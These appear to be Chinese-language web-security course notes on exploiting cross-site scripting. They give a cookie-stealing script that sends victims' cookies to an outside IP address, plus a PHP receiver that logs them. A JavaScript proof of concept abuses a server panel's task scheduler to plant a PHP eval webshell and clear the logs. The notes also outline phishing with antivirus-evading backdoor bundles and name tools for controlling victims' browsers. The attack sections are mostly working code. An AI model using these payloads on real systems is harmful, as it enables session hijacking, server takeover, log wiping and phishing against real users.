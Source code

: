 
---
➢ XSS跨站-攻击利用-凭据盗取

➢ XSS跨站-攻击利用-数据提交

➢ XSS跨站-攻击利用-网络钓鱼

➢ XSS跨站-攻击利用-溯源综合
漏洞原理：接受输入数据，输出显示数据后解析执行

基础类型：反射(非持续)，存储(持续)，DOM-BASE

拓展类型：jquery，mxss，uxss，pdfxss，flashxss，上传xss等

常用标签：https://www.freebuf.com/articles/web/340080.html

攻击利用：盲打，COOKIE盗取，凭据窃取，页面劫持，网络钓鱼，权限维持等

安全修复：字符过滤，实例化编码，http_only，CSP防护，WAF拦截等

测试流程：看输出想输入在哪里，更改输入代码看执行（标签，过滤决定）

#XSS跨站-攻击利用-凭据盗取

条件：无防护Cookie凭据获取

利用：XSS平台或手写接受代码

触发：

```
	<script>var url='http://47.94.236.117/getcookie.php?u='+window.location.href+'&c='+document.cookie;document.write("<img src="+url+" />");</script>
```

接受：

```
	<?php
	
	$url=$_GET['u'];
	
	$cookie=$_GET['c'];
	
	$fp = fopen('cookie.txt',"a");
	
	fwrite($fp,$url."|".$cookie."\n");
	
	fclose($fp);
	
	?>

```
#XSS跨站-攻击利用-数据提交

条件：熟悉后台业务功能数据包，利用JS写一个模拟提交

利用：凭据获取不到或有防护无法利用凭据进入时执行其他
(利用小皮面板的日志xss漏洞，执行添加计划任务，从而将创建恶意代码文件)

```
	<script src="http://xx.xxx.xxx/poc.js"></script>

function poc(){
	$.get('/service/app/tasks.php?type=task_list',{},function(data){
	var id=data.data[0].ID;
	$.post('/service/app/tasks.php?type=exec_task',{
	tid:id
	},function(res2){
	$.post('/service/app/log.php?type=clearlog',{
	},function(res3){},"json");
	},"json");
	},"json");
	}
	
	function save(){
	var data=new Object()
	data.task_id="";
	data.title="test";
	data.exec_cycle="1";
	data.week="1";
	data.day="3";
	data.hour="14";
	data.minute = "20";
	data.shell='echo "<?php @eval($_POST[123]);?>" >C:/xp.cn/www/wwwroot/admin/localhost_80/wwwroot/1.php';
	$.post('/service/app/tasks.php?type=save_shell',data,function(res){
	poc();
	},'json');
	}
	save();
```

#XSS跨站-攻击利用-网络钓鱼

1、部署可访问的钓鱼页面并修改

2、植入XSS代码等待受害者触发

3、将后门及正常文件捆绑打包免杀

https://github.com/r00tSe7en/Fake-flash.cn

#XSS跨站-攻击利用-溯源综合

1、XSS数据平台-XSSReceiver

简单配置即可使用，无需数据库，无需其他组件支持

搭建：https://github.com/epoch99/BlueLotus_XSSReceiver-master

2、浏览器控制框架-beef-xss

只需执行JS文件，即可实现对当前浏览器的控制，可配合各类手法利用

搭建：docker run --rm -p 3000:3000 janes/beef